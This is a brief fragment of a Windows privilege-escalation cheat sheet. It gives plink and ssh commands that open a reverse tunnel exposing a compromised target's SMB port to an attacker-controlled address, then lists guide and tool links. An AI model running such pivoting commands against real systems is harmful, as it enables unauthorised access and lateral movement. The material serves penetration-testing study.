 For example to expose SMB, on the target run:

```cmd
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

SSH enabled in Win10 1803 by default
```CMD
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

### Port Forwarding







## Resources
* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
* https://live.sysinternals.com/
* https://github.com/absolomb/WindowsEnum
